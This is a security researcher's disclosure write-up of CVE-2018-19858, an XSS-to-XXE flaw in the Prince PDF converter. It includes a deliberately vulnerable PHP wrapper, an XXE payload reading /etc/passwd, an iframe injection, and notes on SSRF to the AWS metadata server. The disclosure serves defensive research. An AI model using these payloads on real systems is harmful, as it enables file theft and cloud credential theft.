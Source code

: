 ```yaml
---
layout: post
title: "XSS to XXE in Prince v10 and below (CVE-2018-19858)"
author: Corben Leo
---
```

### Introduction:
This is a vulnerability I found while participating in a <a class="link" href="https://en.wikipedia.org/wiki/Bug_bounty_program"  target="_blank" rel="noopener noreferrer">bug-bounty program</a> earlier this year. It affects Prince, a software that converts "HTML, XHTML, or one of the many XML-based document formats" to PDF.

### Summary
Prince (versions 10 and below) is vulnerable to XML External Entities (XXE) due to the software processing XML with no protections against entities. This allows a remote attacker to gain file read, perform SSRF attacks, DOS, and more. This software is often used with a custom web wrapper that passes user-input into an HTML template which is then converted into a PDF. 

Due to this, it will ocassionally require an XSS in the wrapper – no proper sanitization of user-input before passing it into the HTML template that's being converted.

### Exploitation: 
Demo:
- `http://<server>/convert.php`

```php
<?php
$binary = "/usr/local/bin/prince";
if($_SERVER['REQUEST_METHOD'] == 'POST') {
  $content = $_POST['content'];
  $file = "/tmp/doc.html";
  $sf = fopen($file, 'w');
  fwrite($sf, $content);
  fclose($sf);
  exec($binary." /tmp/doc.html -o out.pdf");
  header('Location: /out.pdf');
} else {
	echo '
<html>
<head>
<title>Convert</title>
<style>
textarea {
  width: 500px;
  height: 300px;
}
</style>
</head>
<body>
	<textarea name="content" form="princeForm">Enter text here...</textarea>
        <form method="POST" action="/convert.php" id="princeForm">
        <input type="submit" value="Convert to PDF"></input>
        </form>
</body>
</html>
	';
}
?>
```


Host an XML file with the following contents:

```xml
<?xml version="1.0"?>
<!DOCTYPE cdl [<!ENTITY asd SYSTEM "file:///etc/passwd">]>
<cdl>&asd;</cdl>
```

Now give the converter the following HTML:

`<iframe src="http://<server>/xxe.xml">` 

Prince will then <b>retrieve</b> the url in the SRC attribute in an attempt to display the iframe, <b>process</b> the XML we provide, and then render the result in the converted PDF document:

![etcpasswd](/images/prince/passwd.png "Contents of Passwd")


We can exploit this XXE to get full-read SSRF by giving it a SYSTEM entity with a <b>URL</b> instead, such as the AWS metadata server:

![aws](/images/prince/ssrf.gif "AWS SSRF")

## outro:
This issue was fixed in Prince version 11 and was assigned the following CVE: <special>CVE-2018-19858</special>.
<br><br>
There's another vulnerability affecting Prince versions 12 and below that I'll write-up soon as soon as it's patched.
<br><br>
Thanks for reading,<br>
**Corben Leo**
- <a class="link" href="https://twitter.com/hacker_"  target="_blank" rel="noopener noreferrer">https://twitter.com/hacker_</a>
- <a class="link" href="https://hackerone.com/cdl" target="_blank" rel="noopener noreferrer">https://hackerone.com/cdl</a>
- <a class="link" href="https://bugcrowd.com/c" target="_blank" rel="noopener noreferrer">https://bugcrowd.com/c</a>
- <a class="link" href="https://github.com/lc"  target="_blank" rel="noopener noreferrer">https://github.com/lc</a>

 
